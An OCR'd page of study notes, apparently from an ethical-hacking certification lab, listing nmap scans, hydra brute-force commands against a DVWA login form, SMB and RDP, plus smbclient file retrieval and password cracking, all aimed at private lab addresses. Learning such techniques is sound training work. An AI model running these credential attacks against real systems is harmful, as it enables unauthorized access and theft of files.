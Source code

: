 -> sudo nmap --script smb-os-discovery -p 445 -T4  192.168.215.130 

Example:  

OS: Windows Server 2022 Datacenter 20348 (Windows 10.0 Build 20348) then ans will be=> 10.0.20348 

Service running on specific ip: 
Version of ip running in specific range : 
Least Severity:  
Use openvas or 
nmap –script vuln ip/acunetix.com 

Bruteforce (hydra): 

DVWA: 
DVWA Login Bruteforce: 
 1. hydra -L username.txt -P pass.txt 127.0.0.1 -s 42001 http-post-form "/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect."	   

Smb: 

-> port 139 or 445 
-> hydra -t 4 -l Henry -P /usr/share/wordlists/rockyou.txt -vV 10.10.215.38 smb
-> hydra -t 1 -v -L username.txt -P pass.txt smb://192.168.215.130 

-> hydra -t 1 -v -L username.txt -P pass.txt  192.168.215.130 smb 

-> to checkfolders : smbmap -u Test-p Test-H 192.168.215.130 (scan directories.ex: cehtools>users) 

-> smbclient -U Test//192.168.215.130/users [ enter pass for Test then] 

-> or smbclient \\\\10.10.55.X\\share_name -U user%password123 

->ls-> cd-> doc/desktop-> get <file> 

-> get secret.txt ~/Desktop/falg2.txt or more secret.txt 


RDP: 
-> sudo nmap -p 3389 --open -sV 192.168.215.129/24 

-> hydra -t 1 -v -L username.txt -P pass.txt rdp://192.168.215.130 

-> hydra -t 1 –v –l test -P pass.txt rdp://192.168.215.130 

-> use remmina to locate hide.cfe file 

->login via ftp to get the file in parrot 

-> or, xfreerdp /u:username /p:password /v:IPAddress  

-> decrypt hashcat/john the ripper 

->crc32 (https://emn178.github.io/online-tools/crc/ )or crc32 <filename>--->use windows ,for linux use linux terminal 
-> try out for file drag&drop: https://emn178.github.io/online-tools/crc32_checksum.html
Remote Linux/windows: 

-> scan for ssh or telnet or ftp ports as remote login can be either of them  
or, use metasploit (https://medium.com/@zisansakibhaque/network-scanning-101-c47c655f2d98 )

SSH: p 22 
